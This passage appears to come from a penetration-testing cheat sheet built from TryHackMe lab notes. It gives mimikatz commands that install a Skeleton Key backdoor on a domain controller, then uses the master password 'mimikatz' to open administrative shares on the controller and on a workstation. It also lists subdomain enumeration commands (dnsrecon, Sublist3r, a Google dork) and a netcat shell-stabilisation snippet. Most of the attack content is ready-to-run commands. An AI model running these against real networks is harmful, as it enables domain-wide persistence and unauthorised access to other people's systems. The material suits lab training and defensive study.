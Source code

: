 #### Installing the Skeleton Key w/ mimikatz

```bash
misc::skeleton
```

#### Accessing the forest

- Ex1

  The share will now be accessible without the need for the Administrators password

  ```bash
  net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
  ```

- Ex2

  access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

  ```bash
  dir \\Desktop-1\c$ /user:Machine1 mimikatz
  ```

  

# Web

## Subdomain

`-site:www.tryhackme.com site:\*.tryhackme.com` in Google

### DNS Bruteforce

```bash
dnsrecon -t brt -d acmeitsupport.thm
```

### Sublist3r

```bash
./sublist3r.py -d acmeitsupport.thm
```



## Shells

### netcat 

- netcat stabilization

  - 1

    ```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm
    <Ctrl + z>
    stty raw -echo; fg
    ```
